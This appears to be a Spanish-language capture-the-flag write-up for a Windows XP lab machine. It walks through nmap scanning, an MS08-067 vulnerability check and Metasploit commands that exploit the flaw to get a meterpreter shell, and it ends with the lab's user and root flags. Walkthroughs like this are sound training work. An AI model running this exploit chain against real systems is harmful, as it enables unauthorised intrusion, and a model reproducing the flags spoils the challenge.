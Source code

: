 
![[ 20250708095033.png]](legacy-images/20250708095033.png)

# Nmap

relizamos un escaneo basico de puertos con nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.241.19 -oN scanner
```
![[ 20250708095741.png]](legacy-images/20250708095741.png)

Una vez identificados los puertos abiertos procedemos a lanzar scripts básicos para ver el servicio y la versión que corren por detras

```bash
nmap -p135,139.445 -sCV 10.129.241.19 -oN targeted
```

![[ 20250708095923.png]](legacy-images/20250708095923.png)

# Autorecon

Vamos a utilizar la herramienta autorecon a ver si conseguimos sacar algún dato extra que nos ayude a saber por donde debemos atacar

![[ 20250708100741.png]](legacy-images/20250708100741.png)

aqui podemos ver que la maquina utiliza un windows XP del 2000-2008 PocketPC/CE tratemos de buscar vulnerabilidades es este tipo de sistemas

comprobamos que los equipos con el S.O de nuestra victima son vulnerables a CVE-2008-4250 fue una vulnerabilidad muy tipica en la epoca por lo que vamos a comprobarlo

usando nmap podemos filtrar vulnerabilidades primero hay que ver si la vulnerabiliad se encuentra en el listado de nmap 

```bash
ls /usr/share/nmap/scripts/ | grep smb
```
![[ 20250708101928.png]](legacy-images/20250708101928.png)

podemos comprobar que si que esta la vulnerabilidad asi que usamos nmap para confirmarlo

```bash
nmap -p445 10.129.227.181 --script smb-vuln-ms08-067 -sV
```

![[ 20250708102045.png]](legacy-images/20250708102045.png)

vemos que nmap termina de confirmar nuestras sospechas

# metasploit

abrimos metasploit

```bash
msfdb run
```

buscamos exploits con la vulnerabilidad y vemos que si que existe uno 

```bash
search ms08-067
```

![[ 20250708102247.png]](legacy-images/20250708102247.png)

```bash
use 0
```

cambiamos el rhosts 

```bash
set rhosts <IP Victima>
```

```bash
exploit
```

![[ 20250708102611.png]](legacy-images/20250708102611.png)

vemos que el exploit es un exito y nos devuelve una shell como meterpreter

vemos que en el directorio `C:\Documents and Settings\Administrator\Desktop` se encuentra la flag de root

![[ 20250708102844.png]](legacy-images/20250708102844.png)

y la flag de user esta en el directorio `C:\Documents and Settings\john\Desktop `

![[ 20250708102935.png]](legacy-images/20250708102935.png)

# flags

user : e69af0e4f443de7e36876fda4ec7644f

root : 993442d258b0e0ec917cae9e695d5713
